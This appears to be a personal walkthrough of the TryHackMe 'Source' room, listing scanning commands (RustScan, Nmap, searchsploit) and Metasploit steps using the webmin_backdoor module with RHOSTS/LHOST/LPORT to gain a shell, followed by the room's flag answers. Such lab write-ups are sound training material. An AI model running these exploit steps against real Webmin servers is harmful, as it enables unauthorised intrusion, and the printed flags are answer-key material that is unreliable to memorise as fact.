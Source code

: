 # ♦ Day 09
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [SOURCE](https://tryhackme.com/r/room/source) : 
   ⇨ Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. First we have to connect it to the TRYHACKME platform for that we have to go to the ***Acess*** in profile and then Download the open vpn file in ***.ovpn*** format.


### • 2. Connect to the Vpn using ***sudo openvpn >file that u downloaded<.ovpn***.

![Screenshot 2024-06-19 181441](https://github.com/Izumi0XD/CYBER_SECURITY_NOTES/assets/141332753/9f832b05-537c-4f1a-b5ee-0be45087e526)

### • 3. Open a Different terminal 'Remember not to close the vpn file till the work is done' and scan the Ip that was generated by THM while starting the   machine and try saving the report by using ***RUSTSCAN***. </br>

  #### ***⇨*** { ***NOTE: Rustscan is much more efficient when we have to scan all the port in a fast manner,rustscan is upgraded version of nmap but it dont give all the dtails of open ports so we acn again use nap to scan open ports after we get the open ports from using rustscan*** }. </br>


## ◙ Difference between Nmap and RustScan.


|    Feature    |                    Nmap                   |               RustScan              |
| ------------- | ----------------------------------------- | ----------------------------------- |
|     Speed     | Slower due to comprehensive scanning      | Very fast, designed for quick scans |
|  Flexibility  | Highly flexible with many options         | Less flexible, focuses on speed     |
|  Programming  | Written in C                              | Written in Rust                     |
|     Usage     | Widely used for detailed network analysis | Best for quick port scanning        |
|  Installation | Available on most systems                 | Requires installation of Rust       | </br>



### • 4. Now Download the rustscan from its orignal website that is in github and here is the [LINK](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan-2.2.3-x86_64-linux.tar.xz). Then extract and install and u r ready to use it.

### • 5. Now let's set the room ip in ***/etc/hosts*** so we don't have to type ip everytime. 
    sudo nano /etc/hosts

### • 6. Scan for the open ports in the ip by rustscan and save it as rustscan-sv-sc-source.txt
     sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

as we can see it dont give us full details On the Open Ports so we will again use Nmap to scan the open ports we got from the rustscan.

### • 7. Now we will use the Nmap to scan all the known open ports.
    sudo nmap -p(port no.) -sV source.com

### • 8. As we obtainesd ports details from the upper scan now we will search for the spoloits feom search ***searchsploits*** Command so we got that its is a webmin fro mm yupper scan so we will do:
    seachsploit webmin


### • 9. And as it contains "Metasploit" as one of the sploits available so we will use ***msfconsole***.
    msfconsole

### • 10. And now we will search for the sploits for webmin in msfconsole.
    search webmin

### • 11. We hav eto select ***exploit/linux/http/webmin_backdoor*** whichever number it is in.

### • 12. Now we gotta see what informations are required to be filed to usee this sploit for tht we wioll use:
    show options 

### • 13. Now fill all the required infos
    set RHOSTS >the ip that was given by the room<

    set LHOST >the ip of ur vpn/tun0<

    set LPORT >the port u wanna use for this operation(tht port should be free/not alredy in use)<
  
  Also set SSL to true and AutoCheck false
  
    set SSL true 

    set AutoCheck false
  
 And BOOOOM! use ***exploit***
     
    exploit

now we are in target's system

# ♦ ANSWERS :

## ◙ TASK 1 :

⍰. User.txt </br>


  ⇨ THM{SUPPLY_CHAIN_COMPROMISE} 

  

⍰. root.txt </br>

  
  ⇨ THM{UPDATE_YOUR_INSTALL}
